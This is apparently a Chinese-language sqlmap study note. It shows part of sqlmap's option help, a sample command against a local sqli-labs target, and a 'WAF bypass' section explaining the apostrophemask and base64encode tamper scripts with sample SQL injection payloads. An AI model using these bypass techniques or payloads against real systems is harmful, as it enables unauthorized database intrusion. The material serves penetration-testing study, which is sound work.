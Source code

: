     --repair            Redump entries having unknown character marker (?)
    --save=SAVECONFIG   Save options to a configuration INI file
    --scope=SCOPE       Regexp for filtering targets
    --skip-heuristics   Skip heuristic detection of vulnerabilities
    --skip-waf          Skip heuristic detection of WAF/IPS protection
    --table-prefix=T..  Prefix used for temporary tables (default: "sqlmap")
    --test-filter=TE..  Select tests by payloads and/or titles (e.g. ROW)
    --test-skip=TEST..  Skip tests by payloads and/or titles (e.g. BENCHMARK)
    --web-root=WEBROOT  Web server document root directory (e.g. "/var/www")

  Miscellaneous:
    These options do not fit into any other category

    -z MNEMONICS        Use short mnemonics (e.g. "flu,bat,ban,tec=EU")
    --alert=ALERT       Run host OS command(s) when SQL injection is found
    --beep              Beep on question and/or when vulnerability is found
    --dependencies      Check for missing (optional) sqlmap dependencies
    --disable-coloring  Disable console output coloring
    --list-tampers      Display list of available tamper scripts
    --no-logging        Disable logging to a file
    --offline           Work in offline mode (only use session data)
    --purge             Safely remove all content from sqlmap data directory
    --results-file=R..  Location of CSV results file in multiple targets mode
    --shell             Prompt for an interactive sqlmap shell
    --tmp-dir=TMPDIR    Local directory for storing temporary files
    --unstable          Adjust options for unstable connections
    --update            Update sqlmap
    --wizard            Simple wizard interface for beginner users

## waf绕过

### 语法

```sql
sqlmap -u http://192.168.1.137/sqli/Less-32/?id=1 --batch --tamper "unmagicquotes"
```

### 绕过参数

#### **apostrophemask.py**

适用数据库：ALL

作用：将引号替换为utf-8，用于过滤单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %EF%BC%871%EF%BC%87=%EF%BC%871`

#### **base64encode.py**

适用数据库：ALL
作用：替换为base64编码
使用脚本前：`tamper("1' AND SLEEP(5)#")`
使用脚本后：`MScgQU5EIFNMRUVQKDUpIw==`
